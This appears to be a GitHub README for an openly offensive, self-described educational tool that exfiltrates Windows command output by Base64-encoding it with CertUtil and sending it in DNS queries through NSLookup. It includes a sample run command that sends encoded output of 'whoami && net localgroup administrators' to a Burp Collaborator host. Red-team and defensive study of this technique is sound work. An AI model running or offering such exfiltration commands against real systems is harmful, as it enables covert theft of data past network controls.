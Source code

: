 # DNS Exfiltrator

Exfiltrate data via DNS query. Based on CertUtil and NSLookup.

Command output will be encoded in Base64 encoding with CertUtil, and exfiltrated in chunks up to 63 characters per query with NSLookup.

Batch script for exfiltrating the command output was tested on Windows 10 Enterprise OS (64-bit).

Bash script for decoding the payload was tested on Kali Linux v2020.3 (64-bit).

Made for educational purposes. I hope it will help!

**TO DO: Make the whole Batch script as an one-liner.**

**TO DO: Finish the project.**

## How to Run

**TO DO: Make this section more clear.**

Open the Command Prompt from [\\src\\](https://github.com/ivan-sincek/dns-exfiltrator/tree/main/src) and run the following command:

```fundamental
dns_exfiltrator.bat d2hvYW1p xyz.burpcollaborator.net
```

Your command must be a Batch one-liner encoded in Base64 encoding, e.g. `d2hvYW1pICYmIG5ldCBsb2NhbGdyb3VwIGFkbWluaXN0cmF0b3Jz` - which is equal to `whoami && net localgroup administrators`.

**TO DO: Not all DNS queries are pulled from Burp Collaborator, and duplicates may occur. Have to find a solution, maybe make my own Burp Suite extension.**

## Images

<p align="center"><img src="https://github.com/ivan-sincek/dns-exfiltrator/blob/main/img/dns_exfiltration.jpg" alt="DNS Exfiltration"></p>

<p align="center">Figure 1 - DNS Exfiltration</p>

<p align="center"><img src="https://github.com/ivan-sincek/dns-exfiltrator/blob/main/img/wireshark_burp.jpg" alt="Wireshark & Burp Collaborator"></p>

<p align="center">Figure 2 - Wireshark & Burp Collaborator</p>

<p align="center"><img src="https://github.com/ivan-sincek/dns-exfiltrator/blob/main/img/save_wireshark_tcp_stream.jpg" alt="Wireshark TCP Stream"></p>

<p align="center">Figure 3 - Wireshark TCP Stream</p>
